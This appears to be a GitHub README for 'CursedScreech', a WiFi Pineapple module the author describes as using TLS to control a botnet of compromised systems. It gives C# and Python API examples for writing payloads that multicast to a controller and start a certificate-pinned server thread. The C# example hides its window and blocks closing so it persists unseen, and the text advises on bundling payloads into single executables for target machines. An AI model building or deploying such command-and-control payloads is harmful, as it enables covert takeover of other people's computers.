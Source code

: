 # CursedScreech

A mass communicator module for the WiFi Pineapple that utilizes TLS to control a botnet of compromised systems.  Included is a C# API and Python API (with documentation) to write payloads that can communicate with CursedScreech.  This module is still in development but will hopefully be ready for it's first full release within the next couple of weeks.

Order of work left on this module:

1. ~~Finish C# API~~
2. ~~Write equivalent Python library~~
3. ~~Put finishing touches on web interface~~
4. Test, Test, Test
5. Finish documentation and video guide
7. Release on Module Manager


# APIs
I recommend using C# over Python to build your payload.  Both APIs are really simple to use but using C# will allow you to create a self-contained executable along with required keys/certificates.  Writing your payload in Python will require you to freeze your code and it can be difficult, if not impossible, to include all required files in a single executable.  If you can't make a single executable you will have to find a way to move the whole dist directory to the target machine.

### C# API Example
```
using System;
using System.Drawing;
using System.Windows.Forms;
using CursedScreech;

namespace Payload
{
    public partial class Form1 : Form {

        public Form1() {
            InitializeComponent();

            CursedScreech.CursedScreech cs = new CursedScreech.CursedScreech();
            cs.startMulticaster("231.253.78.29", 19578);
            cs.setRemoteCertificateSerial("EF-BE-AD-DE");
            cs.setRemoteCertificateHash("1234567890ABCDEF");
            cs.startSecureServerThread("Payload.Payload.pfx", "#$My$ecuR3P4ssw*rd&");

        }
        private void Form1_FormClosing(object sender, FormClosingEventArgs e) {
            e.Cancel = true;
            this.Hide();
        }
    }
}

```


### Python API Example
```
from CursedScreech import CursedScreech

cs = CursedScreech("Network Client")
cs.startMulticaster("231.253.78.29", 19578)
cs.setRemoteCertificateSerial("ABCDEF1234567890")
cs.startSecureServerThread("payload.pem", "payload.cer", "cursedscreech.cer")
```
